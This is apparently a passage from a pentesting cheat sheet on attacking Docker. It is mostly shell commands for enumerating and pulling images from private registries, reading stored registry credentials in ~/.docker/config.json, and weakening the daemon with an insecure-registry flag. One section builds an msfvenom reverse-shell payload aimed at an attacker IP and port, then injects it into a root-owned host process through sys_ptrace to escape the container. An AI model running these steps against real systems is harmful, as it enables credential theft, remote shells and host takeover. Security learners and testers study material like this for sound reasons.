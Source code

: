 ```
# Check if docker registry is up and running
curl -s http://localhost:5000/v2/_catalog | jq .
# Get tags of docker image
curl -s http://localhost:5000/v2/devcode/tags/list | jq .
# Download image locally
docker pull localhost:5000/devcode:latest
# Access container to review it
docker run --rm -it localhost:5000/devcode:latest sh
# Once mounted we can check the docker daemon config to see user and registry
docker system info
# And we can check the registries configured for the creds
cat ~/.docker/config.json

# Private registries
# Check catalog
curl 10.11.1.111:5000/v2/_catalog
# Get image tags
curl 10.11.1.111:5000/v2/privatecode/tags/list
# Add the insecure-registry tag to download docker image
vi /lib/systemd/system/docker.service
ExecStart=/usr/bin/dockerd -H fd:// --insecure-registry 10.11.1.111:5000
# Restart docker service
sudo systemctl daemon-reload
sudo service docker restart
# Download the image
docker pull 10.11.1.111:5000/privatecode:whatevertag
# Enter inside container and enumerate
docker run --rm -it 10.11.1.111:5000/privatecode:golang-developer-team sh
cd /app
ls -la
```

### Attack container capabilities

```
# Host with sys_ptrace capability enabled with host PID space. So it runs top command of host
# You're already inside container
# Check capabilities
capsh --print
# Upload reverse shell and linux-injector
msfvenom -p linux/x64/shell_reverse_tcp LHOST=IP LPORT=PORT -f raw -o payload.bin
# Check any process running as root
ps aux | grep root
./injector PID_RUNNING_AS_ROOT payload.bin
```

### Tools

```
# https://github.com/anchore/grype
# https://github.com/aquasecurity/trivy
# https://github.com/cr0hn/dockerscan
# https://github.com/P3GLEG/Whaler
# https://github.com/RhinoSecurityLabs/ccat
```
